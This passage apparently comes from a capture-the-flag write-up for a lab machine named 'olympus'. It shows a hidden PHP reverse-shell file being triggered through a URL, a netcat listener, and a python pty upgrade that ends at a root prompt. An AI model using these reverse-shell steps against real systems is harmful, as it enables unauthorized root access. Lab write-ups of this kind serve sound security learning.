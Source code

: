 inside the file is a password required for utilizing the funcionality of the file a reverseshell 


![reverse shell](./screenshots/revshell.jpg)

so before calling the url we start a netcat listener in our ssh session afterward navigating to
http://10.10.84.56/0aB44fdS3eDnLkpsz3deGv8TttR4sc/VIGQFQFMYOST.php?ip=127.0.0.1&port=9001

```bash
zeus@olympus:/var/www/html/0aB44fdS3eDnLkpsz3deGv8TttR4sc$ nc -nvlp 9001
Listening on 0.0.0.0 9001
Connection received on 127.0.0.1 45476
Linux olympus 5.4.0-109-generic #123-Ubuntu SMP Fri Apr 8 09:10:54 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 20:14:40 up  2:37,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
zeus     pts/1    10.11.18.173     20:02    6.00s  0.06s  0.00s nc -nvlp 9001
python3 -c "import pty;pty.spawn('/bin/bash')"
root@olympus:/
```
